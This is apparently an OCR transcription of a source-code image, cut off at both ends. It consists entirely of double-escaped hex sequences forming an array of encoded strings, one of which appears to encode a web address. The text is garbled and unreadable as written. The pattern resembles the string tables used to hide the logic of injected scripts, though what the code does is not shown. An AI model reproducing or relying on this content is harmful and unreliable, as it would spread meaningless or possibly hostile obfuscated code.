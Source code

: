 5C\x6A\x5C\x69\x5C\x65\x5C\x31\x57\x5C\x66\x5C\x65\x5C\x64\x5C\x31\x4D\x5C\x66\x5C\x43\x5C\x64\x5C\x6E\x22\x2C\x22\x5C\x41\x5C\x6A\x5C\x69\x5C\x65\x5C\x31\x57\x5C\x66\x5C\x65\x5C\x64\x22\x2C\x22\x5C\x4D\x5C\x69\x5C\x41\x5C\x66\x5C\x6F\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x64\x5C\x6F\x5C\x65\x5C\x6C\x5C\x51\x5C\x70\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x7A\x5C\x78\x5C\x6B\x5C\x42\x5C\x4C\x22\x2C\x22\x5C\x4D\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x41\x5C\x47\x5C\x43\x5C\x6E\x5C\x6B\x5C\x69\x5C\x4A\x5C\x64\x5C\x75\x5C\x42\x5C\x7A\x5C\x75\x5C\x66\x5C\x65\x5C\x64\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x4B\x5C\x42\x22\x2C\x22\x5C\x42\x5C\x4C\x22\x2C\x22\x5C\x4D\x5C\x48\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x4C\x5C\x4D\x5C\x48\x5C\x69\x5C\x41\x5C\x66\x5C\x6F\x5C\x4C\x22\x2C\x22\x5C\x4D\x5C\x69\x5C\x41\x5C\x66\x5C\x6F\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x64\x5C\x6F\x5C\x65\x5C\x6C\x5C\x51\x5C\x70\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x42\x5C\x4C\x5C\x4D\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x41\x5C\x47\x5C\x43\x5C\x6E\x5C\x6B\x5C\x69\x5C\x4A\x5C\x64\x5C\x75\x5C\x42\x5C\x7A\x5C\x75\x5C\x66\x5C\x65\x5C\x64\x5C\x65\x5C\x6B\x5C\x78\x5C\x64\x5C\x4B\x5C\x42\x22\x2C\x22\x5C\x4D\x5C\x75\x5C\x6B\x5C\x50\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x64\x5C\x6F\x5C\x65\x5C\x6C\x5C\x51\x5C\x70\x5C\x78\x5C\x64\x5C\x65\x5C\x66\x5C\x42\x5C\x4C\x22\x2C\x22\x5C\x4D\x5C\x48\x5C\x75\x5C\x6B\x5C\x50\x5C\x4C\x22\x2C\x22\x5C\x4F\x5C\x6B\x5C\x6C\x5C\x69\x5C\x65\x22\x2C\x22\x5C\x6B\x5C\x78\x5C\x46\x22\x2C\x22\x5C\x4A\x5C\x65\x5C\x78\x5C\x6E\x22\x2C\x22\x5C\x4D\x5C\x75\x5C\x6B\x5C\x50\x5C\x4C\x22\x2C\x22\x5C\x48\x22\x2C\x22\x5C\x69\x5C\x6E\x5C\x6B\x5C\x72\x5C\x64\x22\x2C\x22\x5C\x48\x5C\x75\x22\x2C\x22\x5C\x48\x5C\x56\x5C\x32\x69\x5C\x31\x69\x5C\x70\x5C\x4A\x5C\x32\x69\x5C\x31\x69\x5C\x70\x5C\x41\x5C\x70\x5C\x5A\x5C\x70\x5C\x6F\x5C\x6A\x5C\x70\x5C\x6F\x5C\x47\x22\x2C\x22\x5C\x72\x5C\x6A\x5C\x6F\x5C\x65\x5C\x64\x5C\x6F\x5C\x65\x22\x2C\x22\x5C\x78\x5C\x64\x5C\x75\x5C\x6B\x5C\x66\x5C\x32\x73\x5C\x65\x5C\x4A\x5C\x47\x5C\x78\x5C\x43\x5C\x6F\x5C\x66\x5C\x6B\x5C\x6E\x22\x2C\x22\x5C\x47\x5C\x6C\x5C\x6E\x22\x2C\x22\x5C\x4A\x5C\x65\x5C\x65\x5C\x41\x5C\x69\x5C\x31\x74\x5C\x48\x5C\x48\x5C\x6C\x5C\x64\x5C\x69\x5C\x6A\x5C\x47\x5C\x6C\x5C\x72\x5C\x64\x5C\x69\x5C\x45\x5C\x43\x5C\x6E\x5C\x6A\x5C\x46\x5C\x43\x5C\x6E\x5C\x6A\x5C\x46\x5C\x45\x5C\x72\x5C\x6A\x5C\x78\x5C\x48\x5C\x6B\x5C\x78\x5C\x46\x5C\x48\x5C\x43\x5C\x6E\x5C\x66\x5C\x6F\x5C\x5A\x5C\x45\x5C\x46\x5C\x6B\x5C\x4F\x22\x2C\x22\x5C\x6B\x5C\x6F\x5C\x75\x5C\x64\x5C\x57\x5C\x32\x54\x5C\x4F\x22\x2C\x22\x5C\x4D\x5C\x6B\x5C\x78\x5C\x46\x22\x2C\x22\x5C\x48\x5C\x75\x5C\x64\x5C\x4F\x5C\x66\x5C\x47\x5C\x6E\x5C\x65\x5C\x45\x22\x2C\x22\x5C\x48\x5C\x78\x5C\x66\x5C\x57\x5C\x6C\x5C\x64\x5C\x69\x5C\x75\x5C\x64\x5C\x4F\x5C\x66\x5C\x47\x5C\x6E\x5C\x65\x5C\x45\x22\x2C\x22\x5C\x6B\x5C\x78\x5C\x46\x5C\x45\x5C\x51\x5C\x6A\x5C\x47\x5C\x65\x5C\x47\x5C\x43\x5C\x64\x5C\x45\x5C\x72\x5C\x6A\x5C\x78\x22\x2C\x22\x5C\x6B\x5C\x45\x5C\x51\x5C\x65\x5C\x6B\x5C\x78\x5C\x46\x5C\x45\x5C\x72\x5C\x6A\x5C\x78\x22\x2C\x22\x5C\x7A\x5C\x6B\x5C\x69\x5C\x70\x5C\x51\x5C\x65\x5C\x6B\x5C\x78\x5C\x46\x22\x2C\x22\x5C\x72\x5C\x66\x5C\x65\x5C\x64\x5C\x46\x5C\x6A\x5C\x6C\x5C\x51\x22\x2C\x22\x5C\x4D\x5C\x69\x5C\x41\x5C\x66\x5C\x6F\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x64\x5C\x6F\x5C\x65\x5C\x6C\x5C\x51\x5C\x70\x5C\x72\x5C\x66\x5C\x65\x5C\x64\x5C\x46\x5C\x6A\x5C\x6C\x5C\x51\x5C\x42\x5C\x4C\x22\x2C\x22\x5C\x65\x5C\x64\x5C\x6C\x5C\x78\x22\x2C\x22\x5C\x64\x5C\x6F\x5C\x65\x5C\x6C\x5C\x51\x5C\x31\x6F\x5C\x66\x5C\x46\x22\x2C\x22\x5C\x65\x5C\x4A\x5C\x47\x5C\x78\x5C\x43\x5C\x31\x6F\x5C\x66\x5C\x46\x22\x2C\x22\x5C\x65\x5C\x64\x5C\x57\x5C\x65\x22\x2C\x22\x5C\x65\x5C\x75\x5C\x45\x5C\x65\x5C\x6C\x5C\x70\x5C\x72\x5C\x66\x5C\x41\x5C\x65\x5C\x6B\x5C\x6A\x5C\x6F\x22\x2C\x22\x5C\x4D\x5C\x69\x5C\x41\x5C\x66\x5C\x6F\x5C\x7A\x5C\x72\x5C\x6E\x5C\x66\x5C\x69\x5C\x69\x5C\x4B\x5C\x42\x5C\x64\x5C\x6F\x5C\x65\x5C\x6C\x5C\x51\x5C\x70\x5C\x64\x5C\x57\x5C\x72\x5C\x64\x5C\x6C\x5C\x41\x5C\x65\x5C\x7A\x5C\x64\x5C\x57\x5C\x72\x5C\x64\x5C\x6C\x5C\x41\x5C\x65\x5C\x42\x5C\x4C\x22\x2C\x22\x5C\x69\x5C\x47\x5C\x43\x5C\x69\x5C\x65\x5C\x6C\x22\x2C\x22\x5C\x61\x36\x5C\x4D\x5C\x48\x5C\x69\x5C\x41\x5C\x66\x5C\x6F\x5C\x4C\x22\x2C\x22\x5C\x48\x5C\x69\x5C\x31\x69\x5C\x31\x69\x5C\x31\x75\x22\x2C\x22\x5C\x48\x5C\x69\x5C\x32\x69\x5C\x31\x69\x5C
